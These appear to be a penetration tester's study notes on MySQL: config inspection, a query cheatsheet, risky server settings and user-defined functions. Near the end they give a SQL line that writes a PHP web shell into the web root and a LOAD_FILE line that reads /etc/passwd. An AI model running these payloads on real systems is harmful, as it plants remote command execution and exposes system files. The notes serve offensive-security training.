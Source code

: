 Config file: `/etc/mysql/mysql.conf.d/mysqld.cnf` 
Nmap script: _mysql*_

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'
```
## Cheatsheet

```mysql
SHOW databases / tables;
USE <database>;
DESCRIBE <table>;
SELECT * FROM <table> WHERE <column> = "<string>";
$ mysqldump --host=10.0.0.27 [tablename]
select version();
```
### Dangerous Settings

| **Settings**       | **Description**                                                                                                                                                                                                                                                           |
| ------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `user`             | Sets which user the MySQL service will run as.                                                                                                                                                                                                                            |
| `password`         | Sets the password for the MySQL user.                                                                                                                                                                                                                                     |
| `admin_address`    | The IP address on which to listen for TCP/IP connections on the administrative network interface.                                                                                                                                                                         |
| `debug`            | This variable indicates the current debugging settings                                                                                                                                                                                                                    |
| `sql_warnings`     | This variable controls whether single-row INSERT statements produce an information string if warnings occur.                                                                                                                                                              |
| `secure_file_priv` | This variable is used to limit the effect of data import and export operations. (for example by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) function). |
> `system schema` (`sys`) and `information schema` (`information_schema`) are most important databases.

If [User Defined Functions](https://dotnettutorials.net/lesson/user-defined-functions-in-mysql/) are allowed, we can execute C/C++ code as a function within SQL ([GitHub repository](https://github.com/mysqludf/lib_mysqludf_sys))

# Write Local Files
`MySQL` does not have a stored procedure like `xp_cmdshell`, but we can write to a location in the file system that executes our commands for us.
```mysql
> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
>**NOTE:** a global system variable [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limits the effect of data import and export operations as mentioned. These operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file) privilege.
# Read File
```mysql
> select LOAD_FILE("/etc/passwd");
```
# Tools
- [[MySQL - tool]]
- [[dbeaver]]